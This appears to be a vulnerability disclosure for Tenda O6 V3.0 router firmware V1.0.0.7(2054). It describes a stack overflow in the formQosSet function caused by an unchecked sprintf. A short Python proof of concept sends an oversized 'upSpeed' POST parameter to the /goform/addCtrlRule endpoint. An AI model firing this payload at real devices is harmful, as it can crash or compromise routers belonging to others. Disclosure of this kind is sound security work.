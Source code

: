 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
In the O6 V3.0 firmware version V1.0.0.7(2054), there is a stack overflow vulnerability in the `formQosSet` function. Specifically, the variables `Var`, `v3`, `v4`, `v5`, and `v6` receive their values from user-controlled POST request parameters, namely `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable`. The function contains a call to `sprintf` that formats these variables into the `v18` buffer as follows:
`sprintf(v18, "%d;%s;%s;%s;%s;0;0;0;1;%s", v8 + 1, v6, v3, v4, v5, Var);`
Since the length of the `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable` parameters is not validated, it is possible for these user-provided values to exceed the capacity of the `v18` array. This can lead to a buffer overflow, which is a significant security vulnerability.
![[Pasted image 20240805173254.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/addCtrlRule"
payload = b"ab"*3000

data = {"upSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[Pasted image 20240805163853.png]]
